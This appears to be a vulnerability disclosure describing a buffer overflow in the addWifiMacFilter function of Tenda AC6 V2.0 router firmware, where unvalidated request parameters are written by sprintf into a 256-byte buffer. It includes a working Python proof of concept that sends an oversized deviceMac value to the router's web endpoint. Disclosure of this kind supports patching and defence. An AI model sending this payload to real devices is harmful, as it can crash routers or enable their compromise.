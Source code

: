 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "addWifiMacFilter"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `addWifiMacFilter` function, the parameters **deviceID** and **deviceMac** are read into `device_id` and `device_mac` respectively using `websGetVar`. These inputs are then passed to `sprintf(mib_value, "%s;%d;%s", device_mac, 1, device_id);` without prior validation. Since **mib_value** is only 256 bytes in size, providing an overly long **deviceID** or **deviceMac** can directly cause a **buffer overflow**.

![image-20250614175044050](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614175044050.png)

poc

```
import requests
def send_payload(url, id,mac):
    params = {'deviceId': id,'deviceMac': mac}
    response = requests.get(url, params=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/addWifiMacFilter"
id=""
mac=b'a'*0x2048+b"\xef\xbe\xad\xde"
send_payload(url, id, mac)
```

![image-20250614175617189](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614175617189.png)